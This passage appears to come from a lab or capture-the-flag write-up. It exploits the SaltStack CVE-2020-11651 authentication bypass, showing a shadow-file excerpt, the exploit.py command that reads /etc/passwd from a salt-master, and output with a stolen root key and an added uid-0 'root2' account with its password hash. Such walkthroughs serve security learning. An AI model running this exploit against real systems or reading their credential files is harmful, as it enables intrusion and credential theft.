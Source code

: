 ```
ftp:*:17834:0:99999:7:::
nobody:*:17834:0:99999:7:::
systemd-network:!!:18400::::::
dbus:!!:18400::::::
polkitd:!!:18400::::::
sshd:!!:18400::::::
postfix:!!:18400::::::
chrony:!!:18400::::::
mezz:!!:18400::::::
nginx:!!:18400::::::
named:!!:18400::::::
```

Download passwd file:

```bash
python3 exploit.py --master 192.168.111.62 -r /etc/passwd
```

Output:

```
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/utils/gitfs.py:149: DeprecationWarning: distutils Version classes are deprecated. Use packaging.version instead.
  GITPYTHON_MINVER = _LooseVersion("0.3")
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/transport/zeromq.py:44: DeprecationWarning: zmq.eventloop.ioloop is deprecated in pyzmq 17. pyzmq now works with default tornado and asyncio eventloops.
  import zmq.eventloop.ioloop
[+] Checking salt-master (192.168.111.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to read /etc/passwd from 192.168.111.62
root:x:0:0:root:/root:/bin/bash
root2:$1$Y/jF814t$FJv0Wq8N1CyPLC4hkPTSg.:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
mezz:x:997:995::/home/mezz:/bin/false
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin

```
